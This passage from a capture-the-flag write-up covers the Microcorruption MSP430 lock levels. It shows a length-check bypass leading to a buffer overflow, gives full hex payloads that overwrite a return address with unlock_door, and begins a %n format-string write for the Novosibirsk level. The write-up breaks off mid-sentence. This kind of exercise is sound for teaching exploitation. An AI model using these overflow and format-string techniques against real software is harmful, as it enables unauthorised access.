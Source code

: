 ```
``` 4600: 7f90 2100 cmp.b #0x21, r15 ```

In praticular, if the total length is 0x100 = 256, this will compare 0
with 33 and let it past.

At that point, this becomes a normal buffer overflow.  So we put in username:

```{32 bytes of padding}```

(Only 32 bytes since the username gets checked separately to ensure it
isn't too long.)

And the password we put in a 32-byte pattern to determine which bytes
are used for the return address, then then more bytes of padding to
round out the total length to 256:

```{32 byte pattern}{padding to round out total length to 256}```

Thus: 

```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
a0a1a2a3a4a5a6a7a8a9aaabacadaeafb0b1b2b3b4b5b6b7b8b9babbbcbdbebfbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
```

Breaking at the return address, we discover that sp is at the 0xa4
byte.  So we place there the address of the `unlock_door` function:
0x444c:

```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
a0a1a2a34c44a6a7a8a9aaabacadaeafb0b1b2b3b4b5b6b7b8b9babbbcbdbebfbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
```

## 13. Novosibirsk

This is another format string vulnerability, except now the code we
want to get to execute is not present.  We can again use %n to get a
memory overwrite.  There is the very tantalising snippet in
`conditional_unlock_door`:

```
44c6:  3012 7e00      push	#0x7e
44ca:  b012 3645      call	#0x4536 <INT>
```

If it were pushing `0x7f` instead, we'd be done.  So we want to use %n
in the input to overwrite the word at 0x44c8 with 0x007f.

The problem is that this requires us to output around 0x7f characters.
For this, we'll want to use %s to output a long string in memory.
Scanning through memory, the longest string we can find seems to be at
the end around 0xff80.

First, we have to figure out how many things we need to pop off the
stack, so we use password:

```